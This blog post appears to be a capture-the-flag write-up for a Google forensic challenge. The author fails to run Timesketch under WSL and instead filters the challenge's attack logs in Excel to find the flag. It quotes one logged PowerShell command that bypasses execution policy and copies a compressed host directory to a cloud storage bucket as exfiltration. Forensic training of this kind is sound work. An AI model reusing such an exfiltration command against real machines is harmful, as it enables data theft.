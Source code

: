 ```yaml
---
layout: post
title:  "H4CK1NG G00GL3 - EP2C02"
subtitle: "Episode 002 - Challenge 02 - Timesketch Doesn't Like WSL"
date:   2024-09-21 14:05:34 +0300
tags: [CTF, RE, research, hacking-google, forensic-analysis, compromise, timesketch]
readtime: true
cover-img: ["/assets/images/Hacking-Google/Hacking-Google-Cover.png"]
thumbnail-img: "/assets/images/Hacking-Google/Hacking-Google-Thumbnail.png"
share-img: "/assets/images/Hacking-Google/Hacking-Google-Thumbnail.png"
---
```


Well...That was a weird one - kind of solved it before I even started writing a log. 

Let's go through my steps - downloading the file, I got a compressed file containing a `Readme.md` and a `CTF CSV-EASY-final.csv` files.

The `csv` is not too large but not too small (1.6mb), so I opened the `Readme` first.

It contains a short story about a fictional company detecting a compromised machine and collecting logs from it. My job is to sift through them, follow the malicious actor's footsteps, and discover the flag.

The file also contains a walkthrough on installing [Timesketch](https://github.com/google/timesketch). I'm not familiar with it in particular, but programs that process logs are commonly used in detection & resposne teams for forensic analysis during incidents. Turns out, Timesketch is Google's own (open-source) log analysis tool.

I followed the installation guide, which deploys Timesketch using `docker-compose`, a tool that allows deploying multi-container docker apps.

Downloading the relevant images and running `docker-compose` on the given `.yml` file, looks like Timesketch starts a local nginx server with a redis database, along with opensearch - a tool for searching through large data.

I bumped into an issue with deploying the app - it had issues with binding to port 80, even though it wasn't taken, but then locked it forever until I restarted WSL. 

I tried fixing it for a while to no avail. I seems to be a (sadly common) issue with deploying processes on WSL that bind on common ports.

After failing for a while, I decided to take a peek at the `csv` manually:

<figure>
  <img style="display:block; margin-left: auto; margin-right: auto" src="/assets/images/Hacking-Google/Hacking-Google-Ep02-C02-csv.png" title="">
  <figcaption style="text-align: center; font-size:14px; color: gray"><i>First few lines of the collected logs</i></figcaption>
</figure>

The table seems to list actions executed by the malicious actor on a Windows machine. The actions start off with some commands for initial recon in CMD, and then moved to execute powershell commands.

The file contains thousands of actions, and I needed a quick way to sift through them. I created a filter over the entire table and looked for columns which contained small distinct number of options.

Some columns have just one or two distinct values whereas others have thousands. However, I found `target_executed_command` to be especially interesting because, besides having a very attractive name, has just about two dozen distinct values.

<figure>
  <img style="display:block; margin-left: auto; margin-right: auto" src="/assets/images/Hacking-Google/Hacking-Google-Ep02-C02-commands.png" title="">
  <figcaption style="text-align: center; font-size:14px; color: gray"><i>Commands executed by the malicious actor</i></figcaption>
</figure>

Scrolling to the right in the little Excel pop-up, and skimming over the commands, something immediately pops up - the URL of a flag! 

`powershell.exe -ExecutionPolicy Bypass -C $SourceFile=(Get-Item #{host.dir.compress});$RemoteName="exfil-xbhqwf-$($SourceFile.name)";cloud gs cp #{transferwiser.io} gs://#{01000110 01001100 01000001 01000111 00111010.https://h[4]ck[1]n/g.go[og]le/s[ol]ve/...
}/$RemoteName;`

The domain is jumbled, probably meant to stop hunters from searching the domain in the entire `csv`. 

This command and others in a short timeframe around it point to the malicious actor trying to exfiltrate data from the machine to a Google storage bucket. The binary values before the flag URL simply spell out `FLAG:`.

Anyway, it's unfortunate I wasn't able to see how Timesketch works and solve this using it. But in any case - I have my flag.